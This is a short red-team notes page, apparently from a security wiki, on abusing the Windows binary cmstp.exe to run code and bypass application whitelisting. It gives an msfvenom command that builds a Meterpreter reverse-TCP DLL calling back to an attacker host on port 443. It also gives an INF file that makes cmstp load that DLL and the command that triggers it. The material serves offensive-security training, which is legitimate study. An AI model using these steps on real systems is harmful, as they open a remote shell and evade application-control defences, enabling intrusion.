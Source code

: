 # CMSTP

## Theory

Cmstp.exe is a windows binary that allow administrator to installs or removes a Connection Manager service profile. As a red teamer, we can abuse it to execute code and bypass application whitelisting.

## Practice

{% tabs %}
{% tab title="cmstp.exe" %}
First, generate a reverse shell as dll

```bash
v4resk@kali$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > /root/tools/mitre/cmstp/evil.dll
```

Creating a file that will be loaded by CSMTP.exe binary that will in turn load our evil.dll:

```bash
#f.inf
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\experiments\cmstp\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```

Now, we can invoke the payload:

```bash
PS C:\experiments\cmstp> cmstp.exe /s .\f.inf
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/livingofftheland" %}

{% embed url="https://www.ired.team/offensive-security/code-execution/t1191-cmstp-code-execution" %}

